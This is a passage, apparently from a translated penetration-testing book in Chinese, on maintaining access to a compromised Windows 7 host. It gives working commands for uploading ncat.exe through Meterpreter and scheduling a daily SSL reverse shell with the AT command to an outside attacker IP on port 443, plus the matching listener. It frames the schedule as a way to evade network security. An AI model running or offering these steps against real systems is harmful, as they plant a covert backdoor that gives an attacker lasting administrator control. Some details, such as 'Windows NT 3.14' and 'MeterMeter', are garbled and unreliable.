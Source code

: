 一旦最初的攻击破坏了系统，我们希望系统定期呼叫总部。这样的漏洞可以设置为保持恒定连接，每次连接丢失时都会重置连接。也可以将其设置为按指定的间隔重新连接。我们喜欢将这些设置为在某个时间利用漏洞呼叫总部，如果攻击机器上没有可连接的端口，那么在该时间再次到来之前，利用漏洞将保持沉默。完全持久的连接可以引起网络安全的注意。

我们现在已连接到受害者机器，并将 Ncat 的模糊副本上载到受害者。从会话中我们可以看出，这是一次内部攻击。`ncat.exe`文件位于 Kali 上的`/usr/share/ncat-w32/`目录中。连接后，在 MeterMeter 中运行以下命令：

```
upload /usr/share/ncat-w32/ncat.exe C:/windows/ncat.exe

```

![Maintaining access with Ncat](../Images/image00929.jpeg)

这将 Ncat 可执行文件传输到受害者系统。注意，我们对目录斜杠使用的是`/`而不是`\`。因为您在 Linux 上，所以必须使用正斜杠。如果您使用`\`并运行该命令，您将发现目录名将一起运行，并且文件将无法正确上载。

转到 Windows 7 受害者，我们可以看到`Windows`目录中的文件：

![Maintaining access with Ncat](../Images/image00930.jpeg)

Windows NT 3.14 之后的 Windows 有一个命令行工具来运行计划任务。此工具称为`AT`命令。此命令与 Linux 或 UNIX 上可用的`cron`命令非常相似，与`cron`命令一样，您需要管理员级别的访问权限才能运行`AT`。您还可以运行`schtasks`命令，无论您的用户权限如何，该命令都将运行。您可以设置运行任何命令行工具或脚本的时间、日期和次数。因此，使用与机器的流量计连接将外壳插入系统：

```
shell

```

您现在处于受害者系统中，应键入以下内容：

```
AT 5:00PM ncat.exe -nv 128.199.190.69 443 –ssl -e cmd.exe

```

![Maintaining access with Ncat](../Images/image00931.jpeg)

这将设置作业在每天下午 5:00 运行。它将使用以下变量运行`ncat.exe`可执行文件。正在调用端口`443`上的攻击服务器`128.199.190.69`。`–ssl`标志告诉连接使用 SSL。`-e cmd.exe`标志告诉可执行文件通过连接运行`cmd.exe`可执行文件。

在下午 5:00 之前，我们使用各种枢轴登录到我们的邪恶服务器，以监听模式启动 Ncat，等待下午 5:00 到来。

注意，我们在这里连接到`//rogue3`并运行命令：

```
ncat -nvlp 443 –ssl

```

`-n`标志告诉系统不要使用 DNS。`-v`告诉系统将输出设置为详细，以便您可以看到输入和输出。`-l`让 Ncat 听。`-p`告知 Ncat 监听端口`443`，而`–ssl`告知 Ncat 使用 SSL 加密会话：

![Maintaining access with Ncat](../Images/image00932.jpeg)

现在，我们已通过完全管理员权限连接到被黑客攻击的 Windows 7 计算机，该漏洞将在每天下午 5:00 使用，而不会对网络进行任何进一步的攻击。

### 提示
